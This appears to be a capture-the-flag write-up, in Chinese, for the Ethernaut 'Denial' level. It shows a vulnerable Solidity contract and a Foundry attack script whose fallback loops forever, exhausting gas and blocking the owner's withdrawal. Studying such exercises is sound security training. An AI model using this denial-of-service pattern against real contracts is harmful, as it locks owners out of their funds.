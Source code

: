 # Ethernaut CTF Writeup

## Level 20 Denial

> 題目: https://ethernaut.openzeppelin.com/level/0x029Ded0Eda5cB2c63D2f33eB2A151Af1F3951068

原始碼:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Denial {
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint256 timeLastWithdrawn;
    mapping(address => uint256) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint256 amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

過關條件: 

- deny the owner from withdrawing funds when they call `withdraw()`

解法：

- withdraw 函數忽略當 partner 是一個具有 fallback 函數的合約，將會耗盡所有 Gas，產生 Denial of Service 的效果

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import {Denial} from "../src/level20/Denial.sol";

contract AttackDenial {
    Denial target;

    constructor(Denial _target) {
        target = _target;
        target.setWithdrawPartner(address(this));
    }

    fallback() external payable {
        while(true){}     
    }
}

contract Attack is Script {
    Denial target = Denial(payable(0x1B3dF2D20FDdFa46f955bD755DE115D46C90b057));
    AttackDenial attack;
    function run() public {
        vm.startBroadcast();

        attack = new AttackDenial(target);

        vm.stopBroadcast();
    }
}
```